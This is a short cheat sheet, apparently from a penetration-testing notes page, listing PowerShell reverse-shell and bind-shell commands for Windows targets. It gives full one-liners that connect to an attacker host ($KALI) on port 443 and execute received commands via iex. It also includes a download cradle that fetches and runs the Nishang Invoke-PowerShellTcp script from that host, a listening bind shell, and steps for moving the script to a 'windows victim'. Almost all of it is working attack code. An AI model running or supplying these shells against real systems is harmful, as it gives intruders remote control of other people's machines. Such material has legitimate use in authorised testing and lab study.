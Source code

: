 ```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

save as Shelly.ps1
```powershell - windows
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```command prompt - windows
cmd /c powershell -c C:\Windows\system32\Temp\Shelly.ps1
```

#### Invoke-PowerShell.ps1

```bash - kali
sudo git clone https://github.com/samratashok/nishang
```

```bash - kali
locate Invoke-PowerShellTcp.ps1
```

```bash - kali
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

Add the following line to the very bottom:
```bash - kali
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

Transfer and execute on windows victim.

```powershell - windows
powershell iex (New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

#### PowerShell Reverse Shell
```powershell - windows
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### PowerShell Bind Shell
```powershell - windows
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
